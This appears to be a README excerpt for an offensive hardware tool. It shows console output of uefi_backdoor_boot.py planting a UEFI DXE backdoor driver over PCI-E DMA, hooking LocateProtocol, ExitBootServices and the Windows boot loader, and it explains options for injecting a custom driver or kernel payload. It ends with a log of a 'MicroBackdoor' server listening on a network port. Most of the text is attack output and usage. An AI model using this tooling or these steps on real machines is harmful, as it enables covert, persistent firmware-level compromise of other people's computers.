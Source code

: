 ```
$ ./uefi_backdoor_boot.py
[+] Using UEFI system table hook injection method
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a070000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x14689
Backdoor entry RVA is 0x908
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0908
1.756656 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for backdoor load...
[+] Winload image was loaded

              Image base: 0x0086a000
 OslArchTransferToKernel: 0x009c4b20

[+] DONE
```

You can use `--driver` option of `uefi_backdoor_boot.py` to specify an alternative UEFI DXE driver to inject, by default the program uses `payloads/DmaBackdoorBoot/DmaBackdoorBoot_X64.efi` driver. To specify Boot Backdoor payload you can use `--payload` option, its argument is a file path to the kernel driver or DLL image.

After the backdoor was loaded you can use `--debug-output` option to get debug messages of its UEFI DXE driver and print them into the stdout:

```
$ ./uefi_backdoor_boot.py --debug-output
[+] PCI-E link with target is up
[+] Debug output buffer address is 0x79da2000

DmaBackdoorBoot.c(630) : ******************************
DmaBackdoorBoot.c(631) :
DmaBackdoorBoot.c(632) :   Boot backdoor loaded!
DmaBackdoorBoot.c(633) :
DmaBackdoorBoot.c(634) : ******************************
DmaBackdoorBoot.c(668) : Image address is 0xc0000
DmaBackdoorBoot.c(711) : Payload is not present
DmaBackdoorBoot.c(276) : BackdoorImageRealocate(): image size = 0xf500
DmaBackdoorBoot.c(722) : Resident code base address is 0x79d8c000
DmaBackdoorBoot.c(430) : Protocol notify handler is at 0x79d8c364
DmaBackdoorBoot.c(455) : BackdoorEntryResident()
DmaBackdoorBoot.c(464) : ExitBootServices() hook was set, handler = 0x79d8ded7
DmaBackdoorBoot.c(358) : new_ExitBootServices() called
Winload.c(419) : WinloadHook(): winload image is at 0x86a000
Winload.c(507) : winload!HvlpBelow1MbPage is at 0xa037c8
Winload.c(508) : winload!HvlpBelow1MbPageAllocated is at 0xa037b9
Winload.c(587) : winload!OslArchTransferToKernel() is at 0x9c4b20
```


[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724